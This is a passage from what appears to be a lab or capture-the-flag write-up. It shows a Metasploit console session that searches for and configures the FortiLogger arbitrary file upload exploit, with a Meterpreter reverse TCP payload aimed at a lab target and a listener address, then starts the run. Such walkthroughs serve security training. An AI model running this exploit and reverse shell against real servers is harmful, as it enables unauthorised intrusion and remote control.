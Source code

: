 ## Meterpreter

```bash
msf6 exploit(linux/local/sudo_baron_samedit) > search FortiLogger

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank    Check  Description
   -  ----                                                   ---------------  ----    -----  -----------
   0  exploit/windows/http/fortilogger_arbitrary_fileupload  2021-02-26       normal  Yes    FortiLogger Arbitrary File Upload Exploit


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/fortilogger_arbitrary_fileupload

msf6 exploit(linux/local/sudo_baron_samedit) > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > options

Module options (exploit/windows/http/fortilogger_arbitrary_fileupload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      5000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the FortiLogger
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.100.210  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   FortiLogger < 5.2.0



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > set RHOSTS 10.129.239.92
RHOSTS => 10.129.239.92
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run
[*] Started reverse TCP handler on 10.10.14.185:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
```